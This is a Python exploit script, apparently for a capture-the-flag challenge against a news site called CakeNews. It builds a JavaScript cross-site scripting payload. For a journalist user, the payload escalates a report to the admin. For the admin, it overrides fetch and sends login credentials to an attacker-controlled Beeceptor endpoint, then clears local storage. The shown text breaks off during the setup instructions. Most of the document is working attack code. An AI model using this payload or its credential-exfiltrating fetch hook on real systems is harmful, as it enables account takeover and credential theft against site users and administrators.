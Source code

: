 ```python
# --- Helper Functions ---
def print_banner():
    #SWAGGER L33TCODER1997
    banner = """
    ==========================================================================
                    Single Slice Of CakeNews - Automated Exploit
    ==========================================================================
    """
    print(banner)

def generate_random_string(length=8):
    """Generates a random string of lowercase letters."""
    return ''.join(random.choice(string.ascii_lowercase) for _ in range(length))

def generate_js_payload(beeceptor_host):
    """Generates the JavaScript payload with the user's Beeceptor endpoint."""
    js_payload_template = """
(async () => {{
    try {{
        const profile = JSON.parse(localStorage.getItem('cakenewsUserProfile'));
        const token = localStorage.getItem('cakenewsAccessToken');
        const articleId = window.__ARTICLE_ID__;
        const CATCHER_URL = "https://{beeceptor_host}/log";

        if (profile && profile.role === 'journalist') {{
            // Stage 1: If journalist, escalate the report to the admin
            await fetch(`/api/articles/${{articleId}}/report-admin`, {{
                method: 'POST',
                headers: {{ 'Authorization': `Bearer ${{token}}` }}
            }});
        }} else {{
            // Stage 2: We are likely the admin bot. Prepare to steal credentials.
            const originalFetch = window.fetch;
            window.fetch = function(url, options) {{
                if (options && options.body && url.toString().includes('/api/login')) {{
                    // Exfiltrate the credentials to our Beeceptor endpoint
                    originalFetch(`${{CATCHER_URL}}?creds=${{btoa(options.body)}}`);
                }}
                return originalFetch.apply(this, arguments);
            }};
            const loginForm = document.getElementById('cakeLoginForm');
            if (loginForm) {{
                loginForm.setAttribute('action', '/api/login');
            }}
            localStorage.clear();
        }}
    }} catch (e) {{ /* Fail silently */ }}
}})();
"""
    return js_payload_template.format(beeceptor_host=beeceptor_host).strip()

# --- Main Exploit Logic ---
def main():
    print_banner()
    cakenews_base_url = input("[+] Enter the CakeNews base URL: ").strip()
    sso_base_url = input("[+] Enter the BrunnerneLogin (SSO) base URL: ").strip()
    beeceptor_endpoint = input("[+] Enter your Beeceptor endpoint name: ").strip()
    beeceptor_host = f"{beeceptor_endpoint}.free.beeceptor.com"
    payload_url = f"https://{beeceptor_host}/payload.js"
    print("-" * 74)
    js_payload = generate_js_payload(beeceptor_host)
    print("[*] STEP 1: Manual Beeceptor Setup")
    print(f"    1. Go to: https://beeceptor.com/console/{beeceptor_endpoint}")
```